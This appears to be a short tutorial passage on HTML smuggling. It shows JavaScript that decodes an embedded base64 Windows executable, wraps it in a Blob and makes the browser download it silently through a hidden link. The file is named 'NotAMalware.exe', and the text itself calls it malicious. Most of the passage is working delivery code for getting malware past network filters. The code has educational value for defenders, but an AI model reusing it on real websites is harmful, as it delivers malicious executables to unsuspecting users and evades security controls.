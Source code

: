 We can store our payload in a Blob object => JS: `var blob = new Blob([data], {type: 'octet/stream'});` To perform the download, we need to create an Object Url => JS: `var url = window.URL.createObjectURL(blob);` With those two elements, we can create with Javascript our \ tag which will be used to download our malicious file:

```js
var a = document.createElement('a');
document.body.appendChild(a);
a.style = 'display: none';
var url = window.URL.createObjectURL(blob);
a.href = url;
a.download = fileName;
a.click();
window.URL.revokeObjectURL(url);
```

```js
function base64ToArrayBuffer(base64) {
    var binary_string = window.atob(base64);
    var len = binary_string.length;
    var bytes = new Uint8Array( len );
    for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
    return bytes.buffer;
}

var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'NotAMalware.exe';
```